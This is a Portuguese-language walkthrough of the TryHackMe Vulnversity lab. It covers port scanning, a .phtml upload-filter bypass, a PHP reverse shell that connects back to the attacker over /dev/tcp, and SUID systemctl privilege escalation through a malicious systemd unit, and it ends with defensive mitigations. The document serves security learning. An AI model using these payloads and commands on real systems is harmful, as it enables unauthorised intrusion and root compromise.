










# TryHackMe · Vulnversity — Walkthrough & Technical Report

> Documentação completa, walkthrough passo a passo e artefatos de exploração da sala **Vulnversity** (TryHackMe).

[](https://tryhackme.com/room/vulnversity)


---

## 📌 Visão Geral

**Vulnversity** é um laboratório de nível fácil que exercita uma cadeia de ataque realista de ponta a ponta:
reconhecimento ativo, enumeração web, obtenção de *foothold* via bypass de validação de upload (RCE) e,
por fim, escalonamento de privilégios local em Linux explorando um binário com bit **SUID** mal configurado.

| Item | Detalhe |
|------|---------|
| **Alvo** | Máquina virtual TryHackMe — Vulnversity (*Vuln University*) |
| **SO** | Ubuntu (Linux) |
| **Autor** | Luís Felipe Nepomuceno de Moraes |
| **Resultado** | Comprometimento total (shell como `www-data` → `root`) |
| **Técnicas** | Port scanning, dir bruteforce, file-upload bypass, reverse shell, SUID privesc |

---

## 🗺️ Cadeia de Ataque (Kill Chain)

```text
Nmap ──► Gobuster ──► /internal/ (upload) ──► bypass .phtml ──► Reverse Shell (www-data)
                                                                      │
                                                                      ▼
                                   SUID /bin/systemctl ──► chmod +s /bin/bash ──► root
```

---

## 🛠️ Fase 1 — Reconhecimento (Nmap)

Descoberta de portas e serviços em duas etapas: varredura TCP SYN furtiva com detecção de versões e, em seguida, varredura agressiva para scripts e fingerprint do SO.

```bash
nmap -sS -sV <MACHINE_IP>   # scan furtivo + versões dos serviços
nmap -A <MACHINE_IP>        # scripts, OS detection e fingerprint
```

| Porta | Serviço | Versão |
|-------|---------|--------|
| 21 | FTP | vsftpd 3.0.5 |
| 22 | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 139 / 445 | SMB | Samba smbd 4.6.2 |
| 3128 | HTTP Proxy | Squid 4.10 |
| **3333** | **HTTP** | **Apache httpd 2.4.41 (Ubuntu)** — `http-title: Vuln University` |

> 💡 **6 portas abertas.** A porta **3333** chama atenção por hospedar um servidor web em porta não convencional — alvo prioritário.


<p align="center"><sub>Varredura <code>nmap -sS -sV</code> revelando as 6 portas abertas e as versões dos serviços.</sub></p>

---

## 📂 Fase 2 — Enumeração de Diretórios (Gobuster)

Força bruta de diretórios na aplicação web (porta 3333).

```bash
gobuster dir -u http://<MACHINE_IP>:3333 \
  -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

* **Endpoint crítico descoberto:** `/internal/` — hospeda um formulário de **upload de arquivos**.


<p align="center"><sub>Gobuster enumerando a aplicação na porta 3333 e revelando <code>/internal</code> (Status 301).</sub></p>

---

## 💥 Fase 3 — Comprometimento Web (File Upload Bypass → RCE)

Exploração do formulário de upload para obter execução remota de código.

**1. Interceptação e fuzzing de extensões (Burp Suite):**
a requisição de upload é interceptada no Proxy e enviada ao **Intruder** (ataque *Sniper*), marcando a extensão do `filename` como posição de payload. A lista de extensões testadas está em [`scripts/phpext.txt`](scripts/phpext.txt) — `.php`, `.php3`, `.php4`, `.php5`, `.phtml`.


<p align="center"><sub>Requisição <code>POST /internal/index.php</code> interceptada no Burp Proxy.</sub></p>


<p align="center"><sub>Intruder (Sniper) marcando a extensão do <code>filename</code> como posição de ataque.</sub></p>

**2. Bypass identificado:** o servidor bloqueia `.php`, mas **não filtra `.phtml`** — todas as extensões retornam HTTP 200, confirmando que `.phtml` é aceito e interpretado como PHP.


<p align="center"><sub>Resultados do Intruder: <code>.phtml</code> aceito (sem bloqueio), abrindo caminho para RCE.</sub></p>

**3. Payload (reverse shell PHP):** um one-liner PHP é salvo como `images.phtml` com o IP da VPN (`tun0`) do atacante:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/1234 0>&1'"); ?>
```


<p align="center"><sub>Reverse shell PHP apontando para o listener do atacante.</sub></p>

**4. Upload e listener:** o arquivo `images.phtml` é enviado com sucesso enquanto o Netcat aguarda a conexão.

```bash
nc -lvnp 1234
```


<p align="center"><sub><code>images.phtml</code> enviado — resposta <em>Success</em>.</sub></p>

**5. Disparo e foothold:** ao acessar o payload pelo navegador, o reverse shell conecta de volta como **`www-data`**.

```
http://<MACHINE_IP>:3333/internal/uploads/images.phtml
```


<p align="center"><sub>Conexão recebida — shell interativo como <code>www-data</code> em <code>/var/www/html/internal/uploads</code>.</sub></p>

➡️ *Foothold* obtido como usuário **`www-data`**.

---

## 🔐 Fase 4 — Escalonamento de Privilégios (SUID)

**1. Enumeração de binários SUID** (executam com os privilégios do dono — `root`):

```bash
find / -perm -u=s -type f 2>/dev/null
```

* **Descoberta crítica:** `/bin/systemctl` com bit SUID — configuração incorreta explorável via [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/).


<p align="center"><sub><code>/bin/systemctl</code> listado entre os binários com bit SUID.</sub></p>

**2. Serviço `systemd` malicioso:** cria-se um unit que, ao ser executado como root, aplica o bit SUID ao `/bin/bash`:

```bash
echo '[Service]
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > /tmp/x.service
```


<p align="center"><sub>Unit <code>systemd</code> montado em <code>/tmp/x.service</code>.</sub></p>

**3. Execução do serviço** usando o `systemctl` com SUID:

```bash
/bin/systemctl link /tmp/x.service
/bin/systemctl enable --now x.service
```


<p align="center"><sub><code>systemctl link</code> + <code>enable --now</code> disparam o serviço como root.</sub></p>

**4. Shell root:** com o `/bin/bash` agora SUID, `bash -p` preserva o EUID 0:

```bash
/bin/bash -p
id   # uid=33(www-data) euid=0(root) ...
cat /root/root.txt
```


<p align="center"><sub><code>/bin/bash -p</code> → <code>euid=0(root)</code>: privilégios de root obtidos.</sub></p>

➡️ **Comprometimento total do alvo.** Flags de usuário e root capturadas.

---

## 📁 Estrutura do Repositório

```text
Vulnversity/
├── README.md              # Este documento
├── docs/
│   ├── report.md          # Relatório técnico detalhado + galeria completa
│   └── screenshots/        # Capturas organizadas por fase
└── scripts/
    └── phpext.txt         # Wordlist de extensões para o bypass de upload
```

📄 Relatório técnico completo **com a galeria de todas as capturas**: [`docs/report.md`](docs/report.md)

---

## 🎓 Lições Aprendidas

### Ofensivas (atacante)
- **Portas não convencionais importam:** serviços em portas atípicas (3333) costumam esconder as aplicações mais frágeis. Nunca limite o scan às portas padrão.
- **Validação de upload por extensão é frágil:** uma blocklist que esquece variantes (`.phtml`, `.php5`) permite RCE. O fuzzing com Burp Intruder revela a brecha em segundos.
- **SUID é o primeiro lugar a olhar na privesc Linux:** `find / -perm -u=s -type f` + consulta ao GTFOBins resolve boa parte dos casos de escalonamento local. `systemctl` com SUID é RCE como root.
- **Documente enquanto executa:** capturar cada etapa facilita o relatório e a reprodução.

### Defensivas (mitigações)
- **Upload seguro:** usar **allowlist** de extensões *e* validar o `Content-Type` e os *magic bytes*; renomear arquivos no servidor; servir o diretório de uploads **sem permissão de execução** (ex.: `php_admin_flag engine off`).
- **Princípio do menor privilégio:** remover o bit SUID de binários que não o exigem (`chmod u-s /bin/systemctl`) e auditar periodicamente a lista de binários SUID.
- **Hardening de superfície:** desativar serviços/portas não utilizados; manter versões atualizadas; isolar o servidor web do restante do sistema.
- **Monitoramento:** alertar sobre criação/alteração de units `systemd` e sobre uploads de extensões executáveis.

---

## ⚠️ Aviso Legal

Este material é estritamente **educacional** e foi produzido em ambiente de laboratório autorizado (TryHackMe).
As técnicas aqui descritas só devem ser aplicadas em sistemas sobre os quais você tem permissão explícita para testar.
O uso indevido é de responsabilidade exclusiva do agente.
